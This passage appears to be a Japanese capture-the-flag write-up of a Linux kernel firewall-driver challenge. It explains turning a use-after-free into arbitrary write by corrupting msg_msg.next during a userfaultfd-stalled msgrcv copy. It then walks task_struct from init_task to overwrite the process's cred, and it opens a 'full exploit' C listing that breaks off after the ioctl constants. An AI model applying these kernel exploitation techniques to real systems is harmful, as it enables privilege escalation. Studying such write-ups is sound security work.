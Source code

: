 さて、ここで**③の実行前に「temporaryな方」の`msg_msg.next`を任意のアドレスに書き換えることができれば、③のコピー時にオリジナルの`msg_msg`の中身を任意のアドレスに書き込むことができる**と考えられる。コピーに使うのは`memcpy()`であり、アドレスのレンジチェック等もない。
どうやって③の前に`msg_msg.next`を書き換えるかだが、①でtemporaryな`msg_msg`を確保した後、②でuserlandからのコピーが発生するため、②で`userfaultfd`を仕掛けることができる。つまり、予め「次に確保されるslabがUAF領域になる」ような状態を作っておいてから`msgrcv()`を呼ぶことでtemporaryな`msg_msg`はUAF-writableな状態になるため、②をuffdで止めている間にtemporaryな`msg_msg.next`を書き換えることができる。この時一緒に`m_ts`も適当に書き換えておくことで、AAWで書き込むサイズも任意に調整することができる。図にすると、以下の感じでAAWになる:
![](https://i.imgur.com/u1E0UQG.png)


## task_struct walk

これでAARもAAWも実現できたため、あとはやるだけゾーン。因みに、配布されたkernel configを見たところ`modprobe_path`はstaticになっていたため、`task_struct`の`cred`を書き換える方針で行く。まずAARを使って`init_task`の`tasks.prev`を辿っていき、epxloitプロセス自身の`task`を見つける。なお、`task_struct`内の`tasks`のoffsetを見つけるのが少しめんどくさい(`cred`自体は`init_task`の中身を`init_cred`の値でgrepすれば一瞬で分かる)。今回はまず、`prctl()`で`task_struct.comm`をマーキング(`0xffff888007526550`)し、その値でメモリ上を全探索して自プロセスの`task_struct`を見つけた後、そのアドレスを3nibbleくらいマスクした値(`0xffff888007526`)で`init_task`をgrepした。運が良いと`init_task.tasks.next`はexploitプロセスになっているから、これで`tasks`のoffsetが分かる(運が悪いとswapperとかがリストに入ってくる)。今回は`tasks`のオフセットが`0x298`であることがわかった:
![](https://i.imgur.com/UKqpmDo.png)

あとは`init_task`から`task_struct.tasks.prev`を辿って`comm`が設定した値になっている`task_struct`を探せば良い:
![](https://i.imgur.com/FSZmG0p.png)


# full exploit

```exploit.c
#include "./exploit.h"

/*********** commands ******************/

#define DEV_PATH "/dev/firewall"   // the path the device is placed
#define ADD_RULE 0x1337babe
#define DELETE_RULE 0xdeadbabe
#define EDIT_RULE 0x1337beef
#define SHOW_RULE 0xdeadbeef
#define DUP_RULE 0xbaad5aad
#define DESC_MAX 0x800

// size: kmalloc-4k
typedef struct
{
    char iface[16];
    char name[16];
    char ip[16];
    char netmask[16];
    uint8_t idx;
    uint8_t type;
    uint16_t proto;
    uint16_t port;
    uint8_t action;
    char desc[DESC_MAX];
} user_rule_t;

// (END commands )

/*********** constants ******************/

#define ERROR -1
#define SUCCESS 0
#define MAX_RULES 0x80

#define INBOUND 0
```